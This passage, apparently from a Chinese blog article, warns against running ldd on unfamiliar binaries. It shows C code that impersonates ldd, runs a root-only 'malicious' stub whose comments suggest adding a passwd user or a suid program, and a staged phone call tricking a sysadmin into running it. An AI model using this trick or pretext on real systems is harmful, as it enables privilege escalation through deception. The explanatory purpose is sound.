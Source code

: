 ```
    printf("\t/lib/ld-linux.so.2 (0xb8017000)\n");
}

void malicious()
{
    if (geteuid() == 0) {
        /* we are root ... */
        printf("poof, all your box are belong to us\n");

        /* silently add a new user to /etc/passwd, */
        /* or create a suid=0 program that you can later execute, */
        /* or do something really nasty */
    }
}

int main(int argc, char **argv)
{
    if (getenv("LD_TRACE_LOADED_OBJECTS")) {
        malicious();
        pretend_as_ldd();
        return 0;
    }

    printf("%s: error while loading shared libraries: libat.so.0: "
           "cannot open shared object file: No such file or directory\n",
           argv[0]);
    return 127;
}
```

 


#### 邪恶的电话


事实上来说，上面的那段程序可能的影响更具破坏性，因为大多数的系统管理员可能并不知道不能使用 `ldd` 去测试那些不熟悉的执行文件。下面是一段很可能会发现的对话，让我们看看我们的程序是如何更快地获得系统管理员的权限的。


系统管理员的电话狂响……


系统管理员： “同志你好，我是系统管理员，有什么可以帮你的？”


黑客：“管理员同志你好。我有一个程序不能运行，总是报错，错误好像是说一个系统动态链接库有问题，你能不能帮我看看？”


系统管理员：“没问题，你的那个程序在哪里？”


黑客： “在我的home目录下，/home/hchen/app/bin/myapp”。


系统管理员：“ OK，等一会儿”，黑客在电话这头可以听到一些键盘的敲击声。


系统管理员：“好像是动态链接库的问题，你能告诉我你的程序具体需要什么样的动态链接库吗？”
